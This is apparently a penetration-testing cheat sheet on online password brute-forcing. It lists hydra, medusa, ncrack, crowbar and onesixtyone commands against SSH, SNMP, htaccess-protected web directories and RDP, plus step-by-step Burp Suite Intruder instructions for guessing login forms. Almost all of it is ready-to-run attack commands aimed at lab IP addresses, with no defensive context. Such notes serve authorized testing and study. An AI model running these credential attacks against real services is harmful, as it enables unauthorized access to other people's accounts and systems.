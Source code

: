 # Online Cracking

## Overview

* several tools specialized for bruteforcing online
* several different services that are common for bruteforce
* VNC, SSH, FTP, SNMP, POP3, HTTP.

## Port 22 - SSH

```bash
hydra -l root -P wordlist.txt 192.168.0.101 ssh
```

```bash
hydra -L userlist.txt -P best1050.txt 192.168.1.103 -s 22 ssh -V
```

## Port 80/443 htaccess

* password protect directories with apache pretty easily
* just configure the htaccess
* brute forced like this

```bash
medusa -h 192.168.1.101 -u admin -P wordlist.txt -M http -m DIR:/test -T 10
```

## Logins

* use Burp Suite
* intecept a login attempt.
* right-cick "Send to intruder"
* select Sniper if you have only one field you want to bruteforce, like if the username is known
* otherwise select cluster-attack
* select your payload, aka wordlist
* click attack
* look for response-length that differs from the rest

## Port 161 - SNMP

* using hydra

```bash
hydra -P wordlist.txt -v 102.168.0.101 snmp
```

* using onesixtyone

```bash
onesixtyone -c community_strings_mib -i ip_list.txt
```

* [https://github.com/danielmiessler/SecLists/blob/master/Discovery/SNMP/common-snmp-community-strings.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/SNMP/common-snmp-community-strings.txt)

## Port 3389 - Remote Desktop Protocol

* use Ncrack

```bash
ncrack -vv --user admin -P password-file.txt rdp://192.168.0.101
```

* use crowbar

```bash
# -b : protocol
# -s : RHOST
# -u : username
# -c : wordlist
# -n : threads
crowbar -b rdp -s 10.10.10.10/32 -u admin -C ./passwords.txt -n 1
```
